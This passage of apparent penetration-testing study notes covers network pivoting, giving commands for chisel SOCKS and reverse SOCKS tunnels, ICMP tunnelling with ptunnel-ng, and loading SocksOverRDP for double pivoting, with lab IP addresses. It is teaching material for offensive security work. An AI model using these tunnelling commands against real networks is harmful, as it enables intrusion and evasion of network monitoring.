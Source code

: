 Once a session is established, we can start an interactive shell session with `window -i 1`.

## SOCKS Tunnelling with Chisel

Transfers data over HTTP using SSH. We can transfer the `chisel` binary to our pivot host, then start the server there:
`./chisel server -v -p 1234 --socks5`

* It listens for incoming traffic on port 1234 over SOCKS, and forwards it to all internal networks which are accessible from the pivot host.

Now, from attack host, start a chisel client and connect to the pivot on port 1234:
`./chisel client -v 10.129.202.64:1234 socks`

Finally, we can use `proxychains` to use this SOCKS connection. Remember to modify the configuration file to route over port 1080 on SOCKS5:
`socks5 127.0.0.1 1080`

### Reverse SOCKS connection

To use a reverse connection, pass in the `--reverse` option to the server. Now, the server will listen for traffic and proxy them through the client.

* On our attack host: `sudo ./chisel server --reverse -v -p 1234 --socks5`
* On the pivot host: `./chisel client -v 10.10.14.17:1234 R:socks`

## ICMP Tunnelling

Similar to DNS tunnelling, ICMP tunnelling will encapsulate data within ICMP requests (echo and response). Note that this only works if ping requests are allowed.

Tool used: `ptunnel-ng`.

Transfer the binary to the pivot host, then start the server on the pivot side:
`sudo ./ptunnel-ng -r10.129.202.64 -R22`

* The `-r` option specifies the IP we want the server to accept connections on (in such cases, this would be the IP of the pivot host).

From attack host, connect to the server through port 2222:
`sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22`.

Once the ICMP tunnel is up, we can SSH to the target through port 2222.

* This allows us to have an SSH session through the ICMP tunnel.
* From here, we can also enable dynamic port forwarding.

Note that if we use the ICMP tunnel, then all network traffic captured will be marked as ICMP packets.

## Double Pivoting

For Windows, we can use `SocksOverRDP`.

* We will require the `SocksOverRDP` binaries, as well as `Proxifier` portable binaries.

For the first pivot host, we want to load `SocksOverRDP.dll` using `regsvr32.exe`:
`regsvr32.exe SocksOverRDP-Plugin.dll`
